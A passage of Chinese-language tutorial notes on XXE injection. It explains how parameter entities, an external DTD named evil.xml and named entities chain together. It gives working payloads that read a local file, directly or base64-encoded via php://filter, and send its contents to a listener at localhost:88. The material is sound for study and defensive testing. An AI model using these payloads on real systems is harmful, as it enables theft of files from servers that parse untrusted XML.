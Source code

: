这种命名实体调用外部实体，发现evil.xml中不能定义实体，否则解析不了，感觉命名实体好鸡肋，参数实体就好用很多

![](../.gitbook/assets/xxe2.png)  
**3、第一种命名实体+外部实体+参数实体写法：**

```text
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE data [
<!ENTITY % file SYSTEM "file:///c://test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost:88/evil.xml"> 
%dtd; %all; 
]> 
<value>&send;</value>
```

其中evil.xml文件内容为

```text
<!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:88%file;'>">
```

调用过程为：参数实体dtd调用外部实体evil.xml，然后又调用参数实体all，接着调用命名实体send

**第二种命名实体+外部实体+参数实体写法：**

```text
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=c:/test/1.txt">
<!ENTITY % dtd SYSTEM "http://localhost:88/evil.xml">
%dtd;
%send;
]>
<root></root>
```
